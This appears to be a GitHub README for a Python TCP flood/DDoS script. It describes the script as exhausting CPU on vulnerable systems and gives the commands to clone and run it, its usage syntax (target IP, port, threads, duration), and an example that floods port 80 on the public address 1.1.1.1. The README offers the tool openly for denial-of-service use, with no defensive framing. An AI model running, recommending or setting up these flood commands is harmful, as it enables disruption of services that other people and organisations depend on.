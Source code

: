 # TCP-CPU Flood/DDoS Script

Python script for DDoSing/flooding open TCP ports. Vulnerable systems may be CPU exhausted.

</br>

## Installation
NOTE: This command might not work for every system.
```bash

git clone https://github.com/Lenoired/TCP-CPU-Flood-DDoS.git flood-tcp-cpu && cd flood-tcp-cpu && python3 flood.py

```

## Usage

```bash
python3 flood.py <IP> <port> <threads> <duration, in seconds>
```

## Examples

- _Flood port 80 with target IP 1.1.1.1 with 2 threads for 30 seconds_

```bash

python3 flood.py 1.1.1.1 80 2 30

```
